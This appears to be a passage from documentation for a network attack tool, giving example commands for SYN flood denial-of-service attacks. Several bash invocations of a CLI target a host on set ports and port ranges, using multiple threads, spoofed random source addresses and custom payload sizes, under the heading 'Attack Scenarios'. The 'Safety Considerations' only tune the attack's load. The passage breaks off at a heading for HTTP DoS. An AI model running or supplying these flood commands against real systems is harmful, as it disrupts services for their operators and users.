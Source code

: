 **Example Usage:**
```bash
# Basic SYN flood - Single port
python src/cli.py syn-flood \
    --target 192.168.1.100 \
    --port 80 \
    --threads 4

# Advanced SYN flood - Multiple ports with customization
python src/cli.py syn-flood \
    --target 192.168.1.100 \
    --port-range 80-85 \
    --interface eth0 \
    --source-ip random \
    --randomize-source \
    --payload-size 100 \
    --window-size 16384 \
    --flags "SA" \
    --packet-log /path/to/log.pcap
```

**Attack Scenarios:**
1. Basic Service Disruption
   ```bash
   # Target web server with moderate load
   python src/cli.py syn-flood \
       --target 192.168.1.100 \
       --port 80 \
       --threads 8 \
       --randomize-source
   ```

2. Multi-Service Attack
   ```bash
   # Target multiple services with custom parameters
   python src/cli.py syn-flood \
       --target 192.168.1.100 \
       --port-range 80-443 \
       --threads 4 \
       --source-ip random \
       --payload-size 120
   ```

**Safety Considerations:**
- Start with low thread count and increase gradually
- Monitor target's response and network congestion
- Be cautious with payload size to avoid network saturation
- Use packet logging for analysis and troubleshooting
- Consider impact on intermediate network devices

### Application-Layer Attacks

#### HTTP DoS
